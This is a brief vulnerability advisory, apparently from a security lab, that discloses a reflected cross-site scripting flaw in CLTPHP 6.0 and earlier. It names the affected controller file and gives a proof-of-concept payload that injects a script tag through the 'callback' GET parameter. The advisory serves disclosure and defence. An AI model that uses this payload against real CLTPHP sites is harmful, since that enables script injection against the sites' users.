

# CLTPHP <= 6.0 Reflected cross-site scripting(XSS)
## Description
    The system client does not handle GET parameters correctly, resulting in reflected cross-site scripting (XSS).
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/home/controller/Changyan.php `

payload:

```
?callback=<script>alert(%27Vulnerable%27);</script>
```

